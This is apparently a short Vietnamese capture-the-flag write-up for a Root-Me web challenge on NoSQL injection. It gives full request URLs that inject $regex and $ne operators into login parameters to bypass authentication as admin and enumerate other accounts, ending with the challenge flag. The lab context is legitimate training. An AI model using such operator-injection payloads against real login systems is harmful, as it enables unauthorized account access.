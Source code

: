 Challenge này dính lỗi NoSQL injection. Ta test thử bằng cách: ($ne == not equal, $regex)
http://challenge01.root-me.org/web-serveur/ch38/?login[$regex]=.&pass[$ne]=fuck =>  You are connected as admin
Tiếp theo ta dựa vào biến login để blind được các tài khoản khác: 
http://challenge01.root-me.org/web-serveur/ch38/?login[$regex]=[^admin]&pass[$ne]=fuck (tìm kiếm tài khoản khác admin) =>  You are connected as test
finally:
http://challenge01.root-me.org/web-serveur/ch38/?login[$regex]=[^admin|test]&pass[$ne]=1 (tìm kiếm tài khoản khác admin và test)=>  You are connected as : flag{nosqli_no_secret_4_you}
